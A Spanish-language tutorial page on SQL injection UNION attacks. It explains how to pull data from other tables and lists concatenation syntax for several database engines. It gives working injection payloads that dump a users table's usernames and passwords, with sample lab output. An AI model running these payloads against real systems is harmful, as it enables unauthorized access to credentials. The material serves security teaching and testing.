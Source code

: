 ### Extrayendo datos de tablas

Cuando se haya determinado el número de columnas devueltas por la consulta original y sepamos qué columnas pueden contener datos de tipo String, podremos obtener otros datos más interesantes.

Supongamos que:

* La consulta original devuelve dos columnas, las cuales pueden contener datos de cadena.
* El punto de inyección es una cadena citada dentro del `WHERE` cláusula.
* La base de datos contiene una tabla llamada `users` con las columnas `username` y `password`.

En este ejemplo, puede recuperar el contenido de la `users` tabla enviando la entrada:

```sql
' UNION SELECT username, password FROM users--
```

{% hint style="warning" %}
Para realizar este ataque, debe saber que hay una tabla llamada `users` con dos columnas llamadas `username` y `password`. Sin esta información, tendría que adivinar los nombres de las tablas y columnas. Todas las bases de datos modernas proporcionan formas de examinar la estructura de la base de datos y determinar qué tablas y columnas contienen.
{% endhint %}

### Recuperar múltiples valores dentro de una columna

Hay veces que queremos extraer varios datos y concatenarlos entre sí, para ello usamos lo siguiente:

| Motor de BBDD | Payload                                                                                           |
| ------------- | ------------------------------------------------------------------------------------------------- |
| Oracle        | `'foo'\|\|'bar'`                                                                                  |
| Microsoft     | `'foo'+'bar'`                                                                                     |
| PostgreSQL    | `'foo'\|\|'bar'`                                                                                  |
| MySQL         | <p><code>'foo' 'bar'</code> [Esapcio entre ambos Strings]<br><code>CONCAT('foo','bar')</code></p> |

{% hint style="info" %}
Ejemplo de concatenación para **Oracle**:

```sql
' UNION SELECT username || '~' || password FROM users--
```

Los resultados de la consulta contienen todos los nombres de usuario y contraseñas, por ejemplo:

```sql
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```
{% endhint %}
